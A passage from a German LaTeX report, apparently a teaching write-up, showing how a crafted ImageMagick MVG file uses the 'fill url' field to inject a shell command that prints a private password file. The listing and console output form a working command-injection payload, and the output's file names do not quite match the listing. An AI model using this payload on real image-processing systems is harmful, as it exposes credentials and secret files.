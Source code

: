 \subsection{Zweites Beispiel: Auslesen einer geheimen Datei}\label{subsec:zweites-beispiel:-auslesen-einer-geheimen-datei}

Das erste Beispiel hat das Problem gut gezeigt, allerdings nicht die problematische Auswirkung der Sicherheitslücke.
Im nächsten Beispiel soll der Inhalt einer privaten Passwort-Datei angezeigt werden.
Vergleichbar ist dies mit einer Config-Datei, in der beispielsweise Zugangsdaten zu einer Datenbank hinterlegt sind.\\

Hierfür wird folgende Datei erstellt und befüllt:

\begin{lstlisting}[language=Bash, caption=Beispiel 2,label={lst:bsp2}]
> vim test2.mvg
push graphic-context
viewbox 0 0 640 480
fill 'url(https://miro.medium.com/max/700/1*MI686k5sDQrISBM6L8pf5A.jpeg"|cat "/home/max/secretFile)'
pop graphic-context
\end{lstlisting}
\vspace{5mm}

Nach dem ausführen, erscheint in der Console der Inhalt der secretFile.

\begin{lstlisting}[language=Bash, caption=Beispiel 2 - Identify,label={lst:bsp2identify}]
> identify test2.mvg
MY_SECRET_PASSWORD
identify: unrecognized color `https://miro.medium.com/max/700/1*MI686k5sDQrISBM6L8pf5A.jpeg"|cat "SECRET_FILE' @ warning/color.c/GetColorCompliance/1046.
identify: no decode delegate for this image format `HTTPS' @ error/constitute.c/ReadImage/535.
exploit.mvg MVG 640x480 640x480+0+0 16-bit sRGB 153B 0.000u 0:00.000
identify: non-conforming drawing primitive definition `fill' @ error/draw.c/DrawImage/3169.
root@vm-its:~/install/6.8.0/code/case2#
\end{lstlisting}
\vspace{5mm}
